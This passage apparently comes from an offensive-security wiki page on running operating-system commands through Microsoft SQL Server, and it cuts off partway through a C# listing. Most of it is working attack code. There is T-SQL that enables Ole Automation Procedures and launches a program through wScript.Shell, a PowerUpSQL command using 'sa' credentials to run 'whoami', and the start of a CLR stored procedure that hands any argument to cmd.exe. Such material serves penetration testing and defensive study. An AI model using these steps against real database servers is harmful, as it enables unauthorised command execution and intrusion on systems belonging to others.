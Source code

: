 Commands will be executed with the privileges of SQL Server service account.

```sql
# Enabling
sp_configure 'show advanced options', 1;
GO
RECONFIGURE;
GO
sp_configure 'Ole Automation Procedures', 1;
GO
RECONFIGURE;
GO

# Execute code
DECLARE @output INT
DECLARE @ProgramToRun VARCHAR(255)
SET @ProgramToRun = 'Run("calc.exe")'
EXEC sp_oacreate 'wScript.Shell', @output out
EXEC sp_oamethod @output, @ProgramToRun
EXEC sp_oadestroy @output
```

Alternatively, we may use [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) to acheive the same goal.

```powershell
Invoke-SQLOSOle -Username sa -Password pw -Instance instance -Command "whoami" -Verbose
```

### Custom CLR Assemblies

SQL Server CLR integration allows writing stored procedures. We can create a CLR UDF (Common Language Runtime User Defined Function) in any .NET language and compil it into a DLL. It can then be loaded within MSSQL for executing custom functions (needs `sysadmin` privileges).

{% hint style="danger" %}
The `TRUSTWORTHY` property should be set to allow the use of the `CREATE ASSEMBLY` statement.

By default, only the `msdb` database has this property enabled
{% endhint %}

First lets write and compile the following DLL

{% code title="cmd_exec.cs" %}
```csharp
using System;
using System.Data;
using System.Data.SqlClient;
using System.Data.SqlTypes;
using Microsoft.SqlServer.Server;
using System.IO;
using System.Diagnostics;
using System.Text;

public partial class StoredProcedures
{
    [Microsoft.SqlServer.Server.SqlProcedure]
    public static void cmd_exec (SqlString execCommand)
    {
        Process proc = new Process();
        proc.StartInfo.FileName = @"C:\Windows\System32\cmd.exe";
        proc.StartInfo.Arguments = string.Format(@" /C {0}", execCommand.Value);
        proc.StartInfo.UseShellExecute = false;
        proc.StartInfo.RedirectStandardOutput = true;
        proc.Start();
        // Create the record and specify the metadata for the columns.
        SqlDataRecord record = new SqlDataRecord(new SqlMetaData("output", SqlDbType.NVarChar, 4000));
```
